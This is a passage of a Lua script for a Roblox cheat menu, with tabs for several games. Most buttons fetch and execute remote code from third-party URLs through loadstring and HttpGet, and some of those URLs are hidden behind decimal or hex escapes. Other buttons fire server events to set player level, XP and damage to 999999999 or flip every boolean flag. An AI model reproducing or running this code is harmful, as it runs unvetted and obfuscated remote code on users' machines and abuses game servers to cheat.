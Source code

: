     loadstring("\112\114\105\110\116\40\34\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\75\73\78\71\72\85\66\48\49\47\66\108\97\99\107\75\105\110\103\47\109\97\105\110\47\66\108\97\99\107\75\105\110\103\37\50\48\68\111\111\114\115\37\50\48\77\111\98\105\108\101\34\41\41\40\41\32\34\41\10")()
end)
    credits:Button("Doors（过room）",function()
    loadstring(game:HttpGet('\x68\x74\x74\x70\x73\x3A\x2F\x2F\x68\x2E\x6C\x6B\x6D\x63\x2E\x61\x73\x69\x61\x2F\x73\x63\x72\x69\x70\x74\x2F\x64\x6F\x6F\x72\x73\x72\x6F\x6F\x6D\x2E\x6C\x75\x61'))()
end)
    credits:Button("剑客脚本",function()
    jianke_V4 = "作者_初夏"jianke__V4 = "作者QQ1412152634"jianke___V4 = "剑客QQ群347724155"loadstring(game:HttpGet(('https://shz.al/~JianKeV4')))()
end)

local creds = window:Tab("破坏模拟器脚本",'16060333448')

local credits = creds:section("『LINNI Script』",true)
    credits:Button("破坏模拟器",function()
    loadstring(game:HttpGet('https://raw.githubusercontent.com/AquaModz/DestructionSIMModded/main/DestructionSimAqua.lua'))()
end)

local creds = window:Tab("驾驶帝国",'16060333448')

local credits = creds:section("驾驶帝国脚本",true)
    credits:Button("驾驶帝国（英文）",function()
    loadstring(game:HttpGet(('https://raw.githubusercontent.com/zeuise0002/SSSWWW222/main/README.md'),true))()
end)
    credits:Button("驾驶帝国（英文）",function()
    loadstring(game:HttpGet("https://soggyhubv2.vercel.app"))()
end)

local creds = window:Tab("动物进化脚本",'16060333448')

local credits = creds:section("『LINNI Script』",true)
    credits:Button("动物进化1",function()
    game:GetService("ReplicatedStorage").Events.UpdateStatEvent:FireServer("Lv", 999999999)
end)
    credits:Button("动物进化2",function()
    game:GetService("ReplicatedStorage").Events.UpdateStatEvent:FireServer("Xp", 999999999)
end)
    credits:Button("动物进化3",function()
    game:GetService("ReplicatedStorage").Events.UpdateStatEvent:FireServer("DmgLvl", 999999999)
end)
    credits:Button("动物进化4",function()
    game:GetService("ReplicatedStorage").Events.UpdateStatEvent:FireServer("CritDmgLvl", 999999999)
end)
    credits:Button("动物进化",function()
    local player = game.Players.LocalPlayer

for _, child in ipairs(player:GetChildren()) do
    if child:IsA("BoolValue") then
        child.Value = true
    end
end
end)
